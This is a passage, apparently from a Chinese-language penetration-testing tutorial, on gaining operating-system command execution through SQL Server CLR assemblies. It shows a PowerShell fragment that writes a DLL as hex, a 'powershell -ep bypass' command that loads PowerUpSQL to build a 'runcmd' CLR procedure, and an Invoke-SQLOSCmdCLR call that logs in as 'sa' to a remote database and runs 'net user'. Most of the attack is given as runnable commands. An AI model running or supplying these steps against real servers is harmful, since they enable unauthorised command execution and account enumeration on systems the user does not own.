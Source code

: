 ```php
$stringBuilder.AppendLine(" ") | Out-Null

# Create file containing all commands
$stringBuilder.ToString() -join "" | Out-File C:\Users\administrator\Desktop\\dll_hex.txt
```

![image.png](assets/1706232584-3095cc7bb16991be53db4bbc285e838e.png)  
或使用 PowerUpSql 生成更加方便

```php
powershell
powershell -ep bypass
Import-Module .\PowerUpSQL.ps1
Create-SQLFileCLRDll -ProcedureName “runcmd” -OutFile runcmd -OutDir C:\Users\administrator\Desktop\
```

会在指定位置生成 3 个文件，直接调用即可  
![image.png](assets/1706232584-fd25d9e7c876710defb594cc7e0d2ecc.png)

### 使用 PowerUpSQL 远程调用执行 CLR

```php
Invoke-SQLOSCmdCLR -Username sa -Password 'admin' -Instance "192.168.3.130,1433" -Command 'net user' -Verbose | Out-GridView
```

![image.png](assets/1706232584-73af807530ae88300ecc0ae69023c5d9.png)
